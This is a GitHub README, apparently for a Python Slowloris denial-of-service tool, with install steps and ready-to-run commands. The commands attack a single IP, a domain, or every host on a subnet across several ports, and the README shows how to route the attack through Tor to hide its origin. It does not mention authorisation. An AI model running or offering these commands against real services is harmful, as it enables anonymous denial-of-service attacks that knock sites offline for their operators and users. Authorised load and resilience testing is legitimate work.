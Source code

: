# Slowloris Tool

Unified tool for Slowloris testing, with three execution modes (so far):

- **sniper** → attack targeting a single IP 
- **domain** → attack targeting a domain (resolved via DNS)
- **pitchfork** → test across a subnet + multiple ports of your choice

---

## Installation

```bash
git clone https://github.com/CLSxSH7/slowloris-tool.git
cd slowloris-tool
pip install -r requirements.txt
```

For SOCKS5 proxy support, also install:

```bash
pip install PySocks
```

---

## Usage

### Interactive menu

If you run without parameters:

```bash
python slowloris-tool.py
```

You will see a menu to choose between sniper, domain, and pitchfork, with prompts for each parameter.

---

### Sniper mode (single IP)

```bash
python slowloris-tool.py sniper 192.168.0.10 -p 80 -s 200 --https -ua --sleeptime 10
```

With SOCKS5 proxy (e.g., Tor):

```bash
python slowloris-tool.py sniper 192.168.0.10 -p 80 --socks5 127.0.0.1:9050
```

---

### Domain mode

```bash
python slowloris-tool.py domain example.com -p 443 --https -s 200 -ua
```

With SOCKS5 proxy:

```bash
python slowloris-tool.py domain example.com -p 443 --https --socks5 127.0.0.1:9050
```

---

### Pitchfork mode (Subnet/Ports)

```bash
python slowloris-tool.py pitchfork 192.168.0.0/24 -P 80,8080,443 -s 200 -t 50 -d 120
```

> ⚠️ In this mode, SOCKS5 proxy is not supported (direct execution only).

---

## Dependencies

- Python 3.9+
- `requests`
- `PySocks` (only if using --socks5)

---

## Notes

- The `--socks5` parameter is supported only in **sniper** and **domain** modes.
- The proxy is applied globally using a `socket` monkeypatch. 
- To run via **Tor**, make sure the service is active on port 9050:

```bash
tor &
python slowloris-tool.py domain target.com --socks5 127.0.0.1:9050
```

---